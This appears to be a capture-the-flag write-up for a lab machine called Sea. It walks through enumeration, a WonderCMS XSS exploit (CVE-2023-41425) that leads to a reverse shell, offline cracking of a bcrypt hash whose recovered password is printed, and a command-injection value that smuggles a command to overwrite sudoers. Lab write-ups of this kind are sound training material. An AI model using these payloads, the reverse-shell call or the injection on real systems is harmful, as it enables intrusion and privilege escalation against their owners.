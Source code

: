 1,enumerate the ports and services
22/tcp ssh
80/tcp http

2,check the pages and web contents
Firstly, we can use fuff to enumerate the survival urls
![[Pasted image 20240813080552.png]]From that we can find something interesting:
But very sad, there is nothing useful for us.

So let's check the virtual machine or hosts
`ffuf -u http://sea.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.sea.htb" -fw 582
`
Also in the rabbit hole, so just come to the web page, and let's check the `contact.php`

There would be a little wired url ` http://sea.htb/themes/bike/README.md`
This file give us the hints: `Login to your WonderCMS website.`

So we get the name of power or CMS
Let's find something exploitable for this:
`https://github.com/prodigiousMind/CVE-2023-41425.git`
Then from the poc,we can know the login page is in `http://sea.htb/loginURL`

2, get the user shell
Firstly, we need to put the payload into the /contact.php, it would lead to reverse XSS by the web administrator
Then we need to trigger it 
`curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.65&lport=443'`
Then we get the www-data shell 
By enumerate the directory `/var/www/sea/`
We find the `/var/www/sea/databases.js`
Then we get the certificate
`"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
`
So we can use hashcat or john to crack it offline
`hashcat cred.hash -m 3200 /usr/share/wordlists/rockyou.txt`

Then we get the result 
`$2a$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance`
There are two users `amay and geo`
Then try to switch to their user account

When we enumerate the ports and services
`netstat -tuln`
```\amay@sea:~$ netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:37579         0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 0.0.0.0:68              0.0.0.0:* 
```
The port 8080 is attractive.

So let's port forwarding to localhost
`ssh amay@sea.htb -L 8080:localhost:8080`

Then just use browser to check the web page
`There is a # System Monitor(Developing)

So there would be a command injection  and this is our payload:
`curl -X POST 'http://localhost:80/' -d "log_file=/root/root.txt;cp /dev/shm/sudoers > /etc/suoders&analyze_log="



